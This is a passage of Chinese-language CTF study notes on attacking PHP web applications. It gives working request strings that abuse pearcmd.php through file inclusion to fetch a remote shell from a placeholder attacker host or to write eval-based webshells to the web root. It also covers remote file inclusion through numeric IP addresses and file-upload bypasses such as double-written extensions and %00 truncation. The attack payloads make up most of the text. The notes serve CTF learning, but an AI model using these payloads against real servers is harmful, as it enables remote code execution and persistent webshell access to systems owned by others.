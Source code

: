 默认安装位置是  /usr/local/lib/php/  


利用Pear扩展进行文件包含

方法一  远程文件下载

?file=/usr/local/lib/php/pearcmd.php&ctfshow+install+-R+/var/www/html/+http://your-shell.com/shell.php

方法二  生成配置文件，配置项传入我们恶意的php代码的形式

a=b

username=root
man_dir=<?php eval($_POST[1]);?>

ctfshow.php
GET /?file=/usr/local/lib/php/pearcmd.php&+-c+/tmp/ctf.php+-d+man_dir=<?eval($_POST[1]);?>+-s+ 


方法三  写配置文件方式

GET /?file=/usr/local/lib/php/pearcmd.php&aaaa+config-create+/var/www/html/<?=`$_POST[1]`;?>+1.php 


五 远程文件包含

通过域名转数字的形式，可以不用.来构造远程文件地址

http://www.msxindl.com/tools/ip/ip_num.asp

?file=http://731540450/1



## php的文件上传


/tmp/php??????

1 php的文件上传绕过 黑名单绕过

后缀替换为空时，我们通过提交  1.pphphp 替换php为空后，得到1.php   成功写入木马

php3 php5 phps phtml

php后缀替换为txt时，我们无法双写绕过，1.pphphp  1.ptxthp

2 php文件上传的00截断

  hello world

  hello空格world\n\00

  123.php  明显不让直接上传

  123.php%00.jpg 那么后台判断的时候，取最后一个点后面的字符作为后缀  jpg  看起来是合法的文件名称

  ./upload/123.php%00.jpg   ->  ./upload/123.php

  00字符截断需要的版本 

  php版本小于5.3.4  而最新的php版本已经达到8.1
  java版本小于7u40,而最新的java版本已经达到20以上
